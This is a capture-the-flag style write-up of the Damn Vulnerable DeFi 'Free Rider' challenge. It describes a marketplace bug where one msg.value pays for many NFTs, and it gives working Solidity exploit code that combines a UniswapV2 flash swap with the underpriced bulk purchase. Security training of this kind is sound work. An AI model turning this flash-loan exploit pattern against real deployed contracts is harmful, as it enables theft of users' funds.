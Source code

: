### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/free-rider)

### Task

>A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

>The developers behind it have been notified the marketplace is vulnerable. All tokens can be taken. Yet they have absolutely no idea how to do it. So they’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way.

>You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

>If only you could get free ETH, at least for an instant.

### Observations

- The NFT marketplace contract has two buy functions, 1 private: `_buyOne()` and 1 external: `buyMany()`.
- The `buyMany()` function takes an array input of the token Id's to purchase and individually calls `_buyOne()` for each.
- The `buyOne()` function checks the `msg.value` is > the token `priceToPay`. However it checks the same `msg.value` for each token, not the combined cost for all tokens.
- In theory we can send the value of 1 NFT and purchase all NFT's because of this bug.
- Then send it to the `FreeRiderRecovery` contract to receive the reward payout.
- Only one problem, we dont have the ETH to pay the price of 1 NFT.
- So we can do all of this in one transaction using a UniswapV2 flash swap.
- Borrow 15WETH (which we dont yet have), unwrap it, purchase ALL nfts, send them to reward contract, swap wrap rewarded eth, repay weth loan. 
- Profit about 30ETH

### Steps
*Full exploit smart contract can be found [here](https://github.com/CharlieJRBenson/Smart-Contract-Hacking/blob/main/DamnVulnerableDefi/FreeRider/FreeRiderHack.sol)*

#### `attack()` function
- call pair's `swap()` function with data to swap only one token and the amount. (That triggers *FlashSwap* funcitonality).

```
 function attack(uint wethAmount) public {
        require(msg.sender == owner, "OnlyOwner");

        // get correct data to setup swap to be flash swap
        bytes memory data = abi.encode(pair.token0(), wethAmount);
        // call flash swap
        pair.swap(wethAmount, 0, address(this), data);
    }

```

#### `uniswapV2Call()` function is the callback function from the `swap()` call.

- Do malicious things stated above in this function then repay loan.

```
// This function is called by the pair contract, to receive tokens and then return them
    function uniswapV2Call(
        address sender,
        uint amount0,
        uint amount1,
        bytes calldata data
    ) external {
        require(msg.sender == address(pair), "not pair");
        require(sender == address(this), "not sender");

        (address tokenBorrow, uint256 wethAmount) = abi.decode(
            data,
            (address, uint256)
        );

        IWETH weth = IWETH(tokenBorrow);

        //unwrap the weth
        weth.withdraw(wethAmount);

        //set token ids
        uint8 tokenCount = 6;
        uint256[] memory tokens = new uint256[](tokenCount);
        for (uint i = 0; i < tokenCount; i++) {
            tokens[i] = i;
        }

        //buy all nft's for only 15 eth
        mktplace.buyMany{value: wethAmount}(tokens);
        nft = DamnValuableNFT(mktplace.token());

        //send all nfts to reward contract
        for (uint i = 0; i < tokenCount; i++) {
            nft.safeTransferFrom(address(this), recoveryContract, tokens[i]);
        }

        // approx 0.3% fee, +1 to round up
        uint fee = (wethAmount * 3) / 997 + 1;
        uint amountToRepay = wethAmount + fee;

        // wrap eth
        weth.deposit{value: amountToRepay}();

        // Repay
        weth.transfer(address(pair), amountToRepay);

        //send all remaining eth to player
        SafeTransferLib.safeTransferETH(owner, address(this).balance);
    }
```

#### have a `receive()` function to enable reward ether.

```
    receive() external payable {}
```